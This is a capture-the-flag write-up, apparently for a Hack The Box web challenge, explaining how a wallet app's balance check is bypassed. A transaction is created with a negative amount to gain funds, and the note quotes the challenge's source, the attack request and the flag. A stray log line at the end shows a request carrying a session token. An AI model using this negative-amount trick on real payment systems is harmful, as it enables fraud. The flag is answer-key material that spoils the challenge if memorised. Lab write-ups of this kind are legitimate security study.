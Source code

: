 <img width="1426" alt="image" src="https://user-images.githubusercontent.com/76447395/170642616-9d267a2c-25a1-4a95-b411-6b5a9e63cf3d.png">

In this challenge we must have more than 1337 GTC to get the flag. As we see in the source code we have a user with 1337 GTC : 

```sql
INSERT OR IGNORE INTO users (username, password, balance, otpkey, address)
				VALUES ('icarus', 'FlyHighToTheSky', 1337.10, '${uOTPKey}', '${uAddress}');
```

We can easily get the uAddress but if we want to log in as `icarus` we must have his `uOPTKey`... In this web application we can send, receive currency to another wallet, 
but how does the application check if we have enough currency? Source code is always the answer : 

```js
router.post('/api/transactions/verify', AuthMiddleware, async (req, res) => {
	const {trxid, otp} = req.body;
	if (trxLocked) return res.status(401).send(response('Please wait for the previous transaction to process first!'));

	return db.getUser(req.user.username)
		.then(async (user) => {
			db.getTransaction(trxid)
				.then(async (trx) => {
					if (parseFloat(user.balance) < parseFloat(trx.amount)) return res.status(403).send(response('Insufficient Funds!'));
          // [...]
```

If `user.balance` is smaller than `trx.amount` the transaction will be rejected, but the application is not expecting a negative `trx.amount`, let's try :)

<img width="1270" alt="image" src="https://user-images.githubusercontent.com/76447395/170644041-3d2465ab-816d-4ab6-b225-a5ad24107dba.png">

```json
POST /api/transactions/create HTTP/1.1

{"receiver":"098f6bcd4621d373cade4e832627b4f6","amount":"-1337","note":""}
```

Output : 

```json
{"message":"Transaction created successfully!"}
```

Nice, now the transaction must be verified AND then check the dashboard :

<img width="1274" alt="image" src="https://user-images.githubusercontent.com/76447395/170644926-02ac81c5-139e-452d-8a79-1fe9de705f8d.png">

Here we go!

> HTB{fl3w_t00_cl0s3_t0_th3_d3cept10n}


[404]: GET /?session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI5OTQ3MjB9._8UOKz7Q-h_B-76B17ncFPA3g9qTh4RMmy0H4qnZcW0 - 